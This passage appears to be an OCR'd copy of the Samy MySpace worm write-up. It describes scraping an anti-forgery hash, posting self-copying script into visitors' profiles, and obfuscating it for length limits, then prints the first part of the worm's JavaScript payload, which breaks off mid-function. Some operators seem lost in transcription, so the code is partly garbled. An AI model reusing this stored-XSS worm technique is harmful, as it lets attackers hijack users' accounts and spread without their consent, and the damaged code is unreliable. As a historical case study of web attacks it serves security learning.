 **Example**: 
```javascript
if (location.hostname == 'profile.myspace.com') document.location = 'http://www.myspace.com' + location.pathname  + location.search;
```


9. Finally we can do a POST! However, when we send the post it never actually adds a friend. Why not? Myspace generates a random hash on a pre-POST page (for example, the "Are you sure you want to add this user as a friend" page). If this hash is not passed along with the POST, the POST is not successful. To get around this, we mimic a browser and send a GET to the page right before adding the user, parse the source for the hash, then perform the POST while passing the hash.


10. Once the POST is complete, we also want to add a hero and the actual code. The code will end up going into the same place where the hero goes so we'll only need one POST for this. However, we need to pre-GET a page in order to get a new hash. But first we have to actually reproduce the code that we want to POST. The easiest way to do this is to actually grab the source of the profile we're on, parse out the code, and then POST. This works except now all sorts of things are garbled! Ah, we need to URL-encode/escape the actual code in order to POST it properly. Weird, still doesn't work. Apparently javascript's URL-encoding and `escape()` function doesn't escape everything necessary so we'll need to manually do some replacing here in order to get the necessary data escaped. We add a little "but most of all, samy is my hero." to the mix, append all the code right after, and voila. We have self-reproducing code, a worm if you will.


11. Other limits, such as a maximum length, imposed other problems and required tight code, no spaces, obfuscated names, reusable functions, etc..


There were a few other complications and things to get around. This was not by any means a straight forward process, and none of this was meant to cause any damage or piss anyone off. This was in the interest of..interest. It was interesting and fun!


**And in the end, there was code:**

```javascript
<div id=mycode style="BACKGROUND: url('java\nscript:eval(document.all.mycode.expr)')" expr="var 
B=String.fromCharCode(34);var A=String.fromCharCode(39);function g(){var
 
C;try{var 
D=document.body.createTextRange();C=D.htmlText}catch(e){}if(C){return 
C}else{return 
eval('document.body.inne' 'rHTML')}}function 
getData(AU){M=getFromURL(AU,'friendID');L=getFromURL(AU,'Mytoken')}function
 
getQueryParams(){var E=document.location.search;var 
F=E.substring(1,E.length).split('&');var AS=new Array();for(var 
O=0;O<F.length;O  ){var I=F[O].split('=');AS[I[0]]=I[1]}return AS}var
 J;var AS=getQueryParams();var L=AS['Mytoken'];var 
M=AS['friendID'];if(location.hostname=='profile.myspace.com'){document.location='http://www.myspace.com' location.pathname location.search}else{if(!M){getData(g())}main()}function
 
getClientFID(){return findIn(g(),'up_launchIC( ' A,A)}function 
nothing(){}function paramsToString(AV){var N=new 
String();var O=0;for(var P in AV){if(O>0){N ='&'}var 
Q=escape(AV[P]);while(Q.indexOf(' ')!=-1){Q=Q.replace(' ','+')}while(Q.indexOf('&')!=-1){Q=Q.replace('&','&')}N =P '=' Q;O  }return
 
N}function httpSend(BH,BI,BJ,BK){if(!J){return 
false}eval('J.onr' 'eadystatechange=BI');J.open(BJ,BH,true);if(BJ=='POST'){J.setRequestHeader('Content-Type','application/x-www-form-urlencoded');J.setRequestHeader('Content-Length',BK.length)}J.send(BK);return
 
true}function findIn(BF,BB,BC){var R=BF.indexOf(BB) BB.length;var 
S=BF.substring(R,R 1024);return 
S.substring(0,S.indexOf(BC))}function getHiddenParameter(BF,BG){return 
findIn(BF,'name=' B BG B ' value=' B,B)}function 
```